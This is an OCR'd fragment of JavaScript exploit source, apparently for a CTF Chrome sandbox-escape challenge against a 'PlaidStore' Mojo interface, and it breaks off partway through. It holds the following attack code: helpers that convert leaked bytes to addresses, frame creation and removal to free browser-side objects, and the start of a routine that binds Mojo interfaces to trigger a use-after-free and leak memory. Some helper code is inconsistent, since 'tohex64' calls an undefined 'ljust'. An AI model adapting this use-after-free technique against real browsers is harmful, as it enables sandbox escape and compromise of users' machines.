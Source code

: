 ```html
            function rjust(src, n, c)
            {
                if(src.length < n)
                {
                    src = src + c.repeat(n - src.length);
                }
                return src;
            }
            //Convert a number to a hexadecimal string
            //the arg must be a smi array
            function tohex64(x)
            {
                return "0x" + ljust(x[1].toString(16),8,'0') + ljust(x[0].toString(16),8,'0');
            }
            

            function byte2smi(byte_array)
            {
                //this "num" may be larger than the maximum of smi.
                //In this case, it will be converted into a double and precision may be lost.
                //Therefore, we transfer it into BigInt to avoid occurring this situation.
                var num = 0n;
                for(var i = byte_array.length - 1; i >= 0; i--){
                    num = num * 0x100n; 
                    num += BigInt(byte_array[i]);
                }
                var smi_array = [];
                smi_array[0] = Number(num & 0xffffffffn);
                smi_array[1] = Number(num >> 32n);
                return smi_array;
            }
        

            function CreateRFH(src)
            {
                iframe = document.createElement("frame");
                iframe.src = src + "#child";
                return iframe;
            }
            
            function DeleteRFH(iframe)
            {
                document.body.removeChild(iframe);
            }

            async function OOB()
            {
                var leak_success = false;
                if(window.location.hash == "#child"){

                    window.addEventListener("message", (event) => {
                        if(event.data == "UAF"){
                            var pipe = Mojo.createMessagePipe();
                            Mojo.bindInterface(blink.mojom.PlaidStore.name, pipe.handle1, "context", true);
                            //This endpoinnt will be intercepted during the transfer because of the "process" scope.
                            Mojo.bindInterface(victim_interface_name, pipe.handle0, "process", true);
                        }
                    });

                    console.log("[+] Start to leak the address.");
```